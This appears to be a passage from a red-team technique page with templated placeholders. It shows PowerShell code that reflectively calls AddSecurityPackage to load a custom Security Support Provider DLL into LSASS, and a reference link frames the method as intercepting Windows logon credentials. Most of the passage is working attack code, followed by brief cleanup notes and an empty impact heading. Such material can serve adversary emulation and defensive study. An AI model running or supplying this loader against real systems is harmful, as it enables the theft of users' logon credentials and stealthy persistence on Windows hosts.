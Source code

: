 ```
PS> .\ssp_loader.ps1 {{ ssp_dll_path }}
```

If loading manually, first set the path to the compiled SSP DLL into a variable

```
PS> $DllName = "{{ ssp_dll_path }}"
```

Then load the SSP into LSASS

```
PS>
$DynAssembly = New-Object System.Reflection.AssemblyName('SSPI2')
$AssemblyBuilder = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DynAssembly, [Reflection.Emit.AssemblyBuilderAccess]::Run)
$ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('SSPI2', $False)

$TypeBuilder = $ModuleBuilder.DefineType('SSPI2.Secur32', 'Public, Class')
$PInvokeMethod = $TypeBuilder.DefinePInvokeMethod('AddSecurityPackage',
    'secur32.dll',
    'Public, Static',
    [Reflection.CallingConventions]::Standard,
    [Int32],
    [Type[]] @([String], [IntPtr]),
    [Runtime.InteropServices.CallingConvention]::Winapi,
    [Runtime.InteropServices.CharSet]::Auto)

$Secur32 = $TypeBuilder.CreateType()

if ([IntPtr]::Size -eq 4) {
    $StructSize = 20
} else {
    $StructSize = 24
}

$StructPtr = [Runtime.InteropServices.Marshal]::AllocHGlobal($StructSize)
[Runtime.InteropServices.Marshal]::WriteInt32($StructPtr, $StructSize)

$Secur32::AddSecurityPackage($DllName, $StructPtr)
```

### Cleanup

- The SSP will be removed on system reboot or after manually calling DeleteSecurityPackage()

### References

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package#loading-ssp-without-reboot

# Impact
